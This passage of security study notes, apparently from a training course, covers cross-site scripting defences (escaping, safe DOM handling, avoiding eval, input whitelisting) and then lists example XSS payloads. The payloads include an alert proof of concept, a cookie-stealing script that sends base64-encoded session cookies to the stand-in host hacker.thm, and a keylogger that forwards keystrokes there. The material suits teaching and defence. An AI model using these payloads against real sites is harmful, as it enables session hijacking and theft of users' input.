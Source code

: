 #### JavaScript Escaping

* XSS can be introduced with JavaScript code.
* Escaping single quotes will prevent injection.

#### Safe DOM Elements

* XSS in modern Rich Client UIs is often made possible by unsafe handling of the DOM.
* Using the `innerHtml` attribute allows the user input to be rendered as HTML and XSS with JavaScript events as possible.
* The safe alternative is to use `textContent` (or `innerText` in some versions of IE).

#### Use Eval and Dynamic Code Generation with Care

* JavaScript `eval()` function which accepts a JavaScript expression as a string argument and executes it. Use of this function is discouraged.
* Same care is needed when the code generates pieces of JavaScript dynamically. Also discouraged.

### Input Validation

**Whitelisting** is recommended.

* Reduces the attack surface to a known quantity.
* If possible, most input should be whitelisted to alphanumeric to prevent XSS (and many other attacks).
* Special characters should only be allowed on an exception basis.
* Some cases may be relaxed to allow single quotes or other characters.

**Blacklisting** - NOT RECOMMENDED.

* Creative attacker may bypass blacklist by trying a previously unknown method.

**Client Side Input Validation** - NOT RECOMMENDED.

* Can only be used to assist with product usability.
* Attackers can easily bypass it by sending the request directly to the server.

#### Use Proven Validation and Encoding Functionality

* Protect both input and output - "Defense in Depth" principle.
* As you validate the input and encode the output, use proven and reputable libraries.
* It is best to implement a framework that has one central set of functionality that validates and encodes data.

## XSS Payloads

In XSS, the payload is the JavaScript code we wish to be executed on the target's computer. There are two parts to the payload: the intention and the modification.

* Intention is what you wish the JavaScript to actually do.
* Modification is the changes to the code we need to make it execute as every scenario is different.

Examples of XSS Intentions:

* **Proof of Concept**: Simplest payload to demonstrate XSS is possible on a website - causing an alert box to pop up on the page with a string of text.
  * `<script>alert('XSS');</script>`
* **Session Stealing**: Details of a user's session, such as login tokens, are often kept in cookies on the target's machine.
  * `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
    * Takes target's cookie, base64 encodes the cookie to ensure successful transmission for control to be logged in.
* **Key Logger**: Acts as a key logger where anything typed on the webpage will be forwarded to a website under the hacker's control.
  * `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
* **Business Logic**: Calls a particular network resource or a JavaScript function. In this example for changing the email's address called `user.changeEmail()`.